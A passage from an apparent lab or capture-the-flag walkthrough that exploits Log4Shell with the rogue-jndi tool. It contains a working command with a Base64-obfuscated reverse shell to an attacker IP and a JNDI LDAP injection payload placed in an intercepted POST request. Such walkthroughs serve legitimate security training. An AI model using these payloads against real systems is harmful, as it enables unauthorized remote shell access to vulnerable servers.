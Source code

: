 - With that Base64 output, build your command in rogue-jndi:

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA==}|{base64,-d}|{bash,-i}" --hostname "192.168.11.50"
```

- Replace the Base64 encoded string after “echo” in the command above with the one you generated. Replace the hostname variable with the public or local IP of the host you will run the command from. Then start your rogue-jndi LDAP server up.

![Screenshot from 2022-09-04 15-59-51.png](img/Screenshot_from_2022-09-04_15-59-51.png)

- Going back to our intercepted POST request, let's change the payload to
`${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}`and click `Send`

![Screenshot from 2022-09-04 16-37-11.png](img/Screenshot_from_2022-09-04_16-37-11.png)

- Once we receive the output from Rogue server, a shell spawns on our Netcat listen and we can upgrade up the terminal shell as below:
